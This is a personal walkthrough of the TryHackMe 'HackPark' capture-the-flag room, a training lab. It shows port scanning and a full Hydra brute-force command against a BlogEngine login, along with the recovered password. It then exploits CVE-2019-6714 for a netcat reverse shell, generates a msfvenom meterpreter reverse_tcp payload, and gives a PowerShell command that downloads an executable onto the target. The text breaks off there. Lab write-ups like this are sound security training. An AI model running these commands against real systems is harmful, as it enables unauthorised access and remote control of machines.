 [TryHackMe \| HackPark](https://tryhackme.com/room/hackpark)

---
# Enumeration
## Nmap
```
nmap -p- 10.10.158.222
```

## Port 80 - Webserver
![[Pasted image 20251018151941.png]]

# Whats the name of the clown displayed on the homepage?
The hint indicates that we have to conduct a reverse image search of the image, a quick google search will provide sites like: tinyeye, etc. Paste the image and sources of other matches will be there
![[Pasted image 20251018152626.png]]
The Clown itself is from the movie IT, with the name: Pennywise

# Using Hydra to brute-force a login
![[Pasted image 20251018152750.png]]
The login page can be found at the URL: [Title Unavailable \| Site Unreachable](http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/)

We have seen that the user "Administrator" created the clown post, so we can assume that that is a user which we can use to log into the website
Lets give it a try with Hydra
## What request type is the Windows website login form using?
1. We can inspect the login page using the firefox inspect feature of if we used burpsuite to capture the packet
![[Pasted image 20251018153257.png]]
We can also go in the request of the packet to see the full payload that we can use for Hydra
![[Pasted image 20251018155434.png]]

```
__VIEWSTATE=YDG4yvPxsI%2FrkHv%2BytjYF3gyLeQKch33DAhPlARC03EXcitJ8FQqPBAOYWWH%2BTwUBvOe9la0g%2BlgWMl3uzRSUANGcJ%2BoG04yDaEwPXUtJ7VSLlzUecxApyFCH95f%2F3zuTuUC8u2wvQ4qR%2FxLEiE0WNQuDpvbplBGdRA1qkYfNUI4tdlAbgqeVS4mvR%2B55SVn9GxLm0AzyScOSgQiZfbGq4FRMr1cGaiV3ZrvuATvH97TPjuSBeDyVIo4YbW3XiAYd34iFnmSPivFC%2FIt%2FBBrN3SKaOSyWPVKbO%2FBxaVRzaChAdFVBhVdEX0dhHDyne7IEaCqOsWyPsnLSss5iQ5LOqjd%2FasZHdRbp56BT0y06Idq7gU4&__EVENTVALIDATION=C%2Ba9uGa5lKAY3aX0i53V929ygcyRI0wSsXwFeqqUquOzRI8B3qDGsxiF7N02GETZgpLOfIJHP2gB6J9BCwdQx%2BqNOyejkDcTfUPZhblhNxkgfn1lqyWkA9RNNshY2DkDpUMOCe52ql2bQ4s6fF9smHx4RSo1a%2F7L8Yw6VWl99JHdTkww&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
## Cracking POST Request Login Page with Hydra (http-post-form)
```
hydra -l <user> -P <password.txt> <ip-target> http-post-form "header_file_name:request:error_notif"

# Command

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
## Complete Hydra Command 
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/Account/login.aspx:__VIEWSTATE=GlE2yCmLJhjxMS3WAapWzHpHopOnSZe%2Bql42iFWRXoiZ5H%2B8ev8wIrptaXJve3Sbd6pT%2FrwUgyiQoljyTpvaSFmerFfikAhX%2B0x7wPKeGvX%2Bln5s3lF2MiRyzfhkETMzMVqmG9YOF%2BAbgUUrv5BaI3M%2BnQEoVdHs68l%2BWv%2Fl1Kju7ufm&__EVENTVALIDATION=fHY6mqK6KeT8pJYrkCm%2FDIV5hhJF6aZ7UbhYd3Y4cdb0CgsyhEzYd6Pa1y8%2F463qYWZXFr0uMjTAP81waQE2U5kWlkKKjrEi8KYqWJBk0C%2F0Wmoo%2B0GtbYNAYGwQh%2F5bdiyauLB7eVBmo%2F%2BGKpFUGFB5GFJyiAvLS78nzJwIsoRgpDZY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

![[Pasted image 20251018160029.png]]

### Password
```
login: admin   password: 1qaz2wsx
```

# Access to the Website Admin
![[Pasted image 20251018161322.png]]

The version of BlogEngine after looking around is:  3.3.6.0 

Lets find an exploit for this, simply search on google and look for the most common website like rapid7 or exploitdb

The CVE is: ***CVE-2019-6714***

# Using the public exploit, gain initial access to the server.

Who is the webserver running as?

How TF are we gonna do this? lol i think we will need to use the exploit that we just found and try to use it in a way to exploit this vulnerable webserver, so lets try our best.

1. Download the Exploit
2. Modify the exploit with out IP address and Port
	![[Pasted image 20251018205300.png]]
	1. Save it as PostView.ascx
3. Setup a simple listener 
	1. ![[Pasted image 20251018205456.png]]
4. Modify the post on the website
	1. ![[Pasted image 20251018205814.png]]
	2. ![[Pasted image 20251018205925.png]]
5. Trigger the Exploit
	1. According to the exploit explanation, to trigger the exploit we need to navigate to the following
	2. http://10.10.10.10/?theme=../../App_Data/files
	3. ![[Pasted image 20251018210222.png]]
	4. We will get a shell back on our Netcat Listener 
	5. ![[Pasted image 20251018210247.png]]
# Upgrading the Current Shell
1. Lets generate a MSFvenom payload 
2. Create a Meterpreter Listener 
3. Upload the payload via our current Netcat Shell

## Generate MSFVenom Payload
Since we already have a shell via netcat on the webserver, which is a windows machine, we can create a windows payload by using the following
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.9.0.124 LPORT=7777 -f exe -o reverse.exe
```
## Setup a http server to serve the payload
Lets set up the http.server hosting our payload so that we can download it from the target machine 
```
python3 -m http.server 9090
```
## Download the Pay Via the Netcat Shell
Using netcat, let us download the payload via the following command
```
(New-Object Net.WebClient).DownloadFile('https://example.com/file.exe', 'c:\windows\system32\inetsrv\clown.exe')
```